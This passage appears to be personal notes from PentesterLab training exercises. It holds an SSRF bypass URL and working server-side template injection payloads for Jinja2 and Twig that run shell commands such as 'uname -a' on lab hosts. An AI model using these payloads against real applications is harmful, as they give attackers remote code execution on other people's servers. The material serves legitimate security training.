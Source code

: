 exploit:
http://ptl-f5443d61-d11f71ec.libcurl.st/?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234/hacker.txt

notes:
- the domain is being filtered with a PHP function
- there is a dns server that resolves on 127.0.0.1 hackingwithpentesterlab.link



## Server side template injection

### 01
chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

url:
http://ptl-20d72bd5-bb314c9c.libcurl.st/

exploit:
http://ptl-20d72bd5-bb314c9c.libcurl.st/a{{1-1}}
http://ptl-20d72bd5-bb314c9c.libcurl.st/a{{''.__class__.mro()[2].__subclasses__()[233]}}
http://ptl-20d72bd5-bb314c9c.libcurl.st/a{{''.__class__.mro()[2].__subclasses__()[233]("uname -a", shell=True).communicate()[0]}}
http://ptl-20d72bd5-bb314c9c.libcurl.st/a{{''.__class__.mro()[2].__subclasses__()[233]("/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509", shell=True).communicate()[0]}}

notes:
- jinja2 vulnerable to template injections
- {{ '7'*7 }}
- {{ [].class.base.subclasses() }} # get all classes
- {{''.class.mro()[1].subclasses()}} 
- {%for c in [1,2,3] %}{{c,c,c}}{% endfor %}

### 02
chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

url:
http://ptl-49df9fe2-9aff40c5.libcurl.st/?name=hacker{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')}}

exploit:

notes:
- the vuln site uses twig template framework
- `{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}`

## File upload

### 01
chl:
`/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`a
